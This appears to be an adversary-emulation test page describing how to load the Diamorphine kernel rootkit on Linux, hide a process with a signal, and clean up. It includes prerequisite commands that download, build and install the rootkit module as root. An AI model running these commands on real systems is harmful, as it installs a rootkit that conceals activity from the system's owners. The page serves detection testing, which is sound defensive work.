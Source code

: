 #### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo modprobe #{rootkit_name}
ping -c 10 localhost >/dev/null & TARGETPID="$!"
ps $TARGETPID
kill -31 $TARGETPID
ps $TARGETPID || echo "process ${TARGETPID} hidden"
```

#### Cleanup Commands:

```sh
kill -63 1
sudo modprobe -r #{rootkit_name}
sudo rm -rf /lib/modules/$(uname -r)/#{rootkit_name}.ko /tmp/atomic
sudo depmod -a
```

#### Dependencies: Run with `bash`!

##### Description: The kernel module must exist on disk at specified location (#{rootkit_name}.ko)

##### Check Prereq Commands:

```bash
if [ -f /lib/modules/$(uname -r)/#{rootkit_name}.ko ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```bash
mkdir -p /tmp/atomic && cd /tmp/atomic
curl -sLO #{repo}/archive/#{rev}.zip && unzip #{rev}.zip && cd Diamorphine-#{rev}
make
sudo cp #{rootkit_name}.ko /lib/modules/$(uname -r)/
sudo depmod -a
```

<br/>
